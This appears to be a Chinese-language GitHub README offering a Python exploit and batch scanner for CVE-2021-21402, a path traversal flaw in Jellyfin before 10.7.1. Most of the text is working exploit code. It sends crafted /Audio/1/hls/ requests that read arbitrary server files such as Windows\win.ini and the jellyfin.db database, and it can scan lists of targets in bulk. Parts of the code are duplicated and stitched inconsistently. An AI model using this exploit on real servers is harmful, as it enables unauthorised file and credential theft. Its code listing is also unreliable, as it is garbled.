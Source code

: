 # CVE-2021-21402
### 漏洞描述
Jellyfin 是一个自由的软件媒体系统，用于控制和管理媒体和流媒体。它是 emby 和 plex 的替代品，通过多个应用程序从专用服务器向终端用户设备提供媒体。
Jellyfin 低于 10.7.1 的版本中，攻击者可以通过构造恶意请求从 Jellyfin 服务器的文件系统中读取任意文件。当以 Windows 做为服务器操作系统时，此问题更加普遍。暴露于公共Internet的服务器可能会受到威胁。
解决建议

#### 目前厂商已发布升级补丁以修复漏洞，补丁获取链接：
https://github.com/jellyfin/jellyfin/commit/0183ef8e89195f420c48d2600bc0b72f6d3a7fd7

## 上传文件为漏洞利用及验证文件

## 文件编写语言：python3
部分代码示例
````
`漏洞名称:CVE-2021-21402 Jellyfin任意文件读取  
功能：单个检测，批量检测                                     
单个检测：python poc.py -u url
批量检测：python poc.py -f 1.txt
+-----------------------------------------------------------------+                                     
''')
    def exp(self, target_url, session):
        payload=input('请输入任意路径,默认请回车(例如：..\..\..\..\..\..\..\Windows\win.ini)：') or '..\..\..\..\..\..\..\Windows\win.ini'
        url = f"{target_url}/Audio/1/hls/{quote(payload)}/stream.mp3/"
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36'}
        try:
            res = session.get(url=url,
                                headers=headers,
                                verify=False,
                                timeout=10)
            return res
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)
    def poc(self, target_url, session):
        payload='..\data\jellyfin.db'
        url = f"{target_url}/Audio/1/hls/{quote(payload)}/stream.mp3/"
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36'}
        try:
            res = session.get(url=url,
                                headers=headers,
                                verify=False,
                                timeout=10)
            return res
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)
    def main(self, target_url, file):
        self.title()
        count=0
        if target_url:
            session = requests.session()
            res=self.exp(target_url, session)
            if res.status_code==200 and res.text is not None:
                print(f'文件内容：\n{res.text}')
        if file:
            for url in file:
                count += 1
                target_url = url.replace('\n', '')  #取消换行符
                session = requests.session()
                res=self.poc(target_url, session)

````



            return res
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)
    def main(self, target_url, file):
        self.title()
        count=0
        if target_url:
            session = requests.session()
            res=self.poc(target_url, session)
            if res.elapsed.total_seconds()>6 and res.status_code==200:
                print(f'\033[31m[+] 延时 {res.elapsed.total_seconds()} 响应值为 {res.status_code}，{target_url} 可能存在漏洞\033[0m')
            else:
                print(f'[+] 延时 {res.elapsed.total_seconds()} 响应值为 {res.status_code}，{target_url} 不存在漏洞')
        if file:
            for url in file:
                count += 1
                target_url = url.replace('\n', '')  #取消换行符
                session = requests.session()
                res=self.poc(target_url, session)
                try:
                    if res.elapsed.total_seconds()>6 and res.status_code==200:
                        print(f'\033[31m[{count}] 延时 {res.elapsed.total_seconds()} 响应值为 {res.status_code}，{target_url} 可能存在漏洞\033[0m')
                    else:
                        print(f'[{count}] 延时 {res.elapsed.total_seconds()} 响应值为 {res.status_code}，{target_url} 不存在漏洞')
                except Exception as e:
                    print("\033[31m[x] 请求失败 \033[0m", e)
`if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('-u',
                        '--url',
                        type=str,
                        default=False,
                        help="目标地址，带上http://")
    parser.add_argument("-f",
                        '--file',
                        type=argparse.FileType('r'),
                        default=False,
                        help="批量检测，带上http://")
    args = parser.parse_args()
    run = poc()
    run.main(args.url, args.file)`

#### 开源共享资源，禁止商用倒卖！！！

本人上传的均为已披露的漏洞（带编号），适用于测试人员对可能存在漏洞的系统或者服务器进行安全评估，不可用于非法用途！

## 您可以选择联系我们
## zc15108962790@163.com


